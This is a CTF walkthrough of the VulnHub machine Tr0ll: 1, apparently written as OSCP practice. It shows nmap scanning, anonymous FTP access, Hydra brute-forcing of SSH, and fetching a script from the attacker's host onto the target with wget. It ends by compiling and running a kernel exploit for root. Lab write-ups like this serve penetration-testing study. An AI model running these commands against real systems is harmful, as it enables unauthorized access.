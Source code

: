 ```yaml
---
title: "Tr0ll: 1 Walkthrough"
author: alex
date: Sat 8 Jul 19:15:48 CEST 2023
categories: [OSCP Prep,Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-07-tr0ll-walkthrough
---
```


## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Wireshark
- Linux Exploit Suggester
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.12    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.12
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

This way, we get more information about the victim. Let's have a look:

```
Nmap scan report for 192.168.1.12
Host is up (0.00024s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE VERSION

21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.23
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
|   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
|   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
|_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)

80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)

MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

![FTP](/ftp.png)

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

```bash
get lol.pcap
```
   
![sup3rs3cr3tdirlol](/supersecretdir.png)

```
Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
\n
Sucks, you were so close... gotta TRY HARDER!\n
```

Isn't it obvious? Let's open Firefox and look for: `http://192.168.1.12/sup3rs3cr3tdirlol/`

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

```bash
strings roflmao
```

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

![Strings](/strings.png)

Another directory? Hell yeah! `http://192.168.1.12/0x0856BF/`

More files. This time looks like we get some usernames and a Pass.txt. Let's try to brute force **SSH** with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but **Pass.txt**!

```bash
sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 
```

Note I have made a text document with the usernames. And quickly we find a valid combination:

![Brute Force with Hydra](/hydra.png)

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

```bash
/bin/bash -i
```

## Enumeration

Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the **Linux Exploit Suggester** script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

```bash
sudo service apache2 start
```

Now, in **tr0ll** machine, inside `tmp` folder:

```bash
wget http://192.168.1.23/Enumeration/les.sh
```

Now we should give permissions to the file:

```bash
chmod 777 les.sh
```

And run it:

```bash
./les.sh
```

Now we know that this machine is specifically vulnerable to:

![Linux Exploit Suggester](/exploit.png)

## Exploitation

Now we only need to compile the exploit, give permissions and run it:

```bash
gcc exploit.c -o exploit
chmod 777 exploit
./exploit
```

![Root](/root.png)

And we should see a root shell now! Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

![Proof](/proof.png)
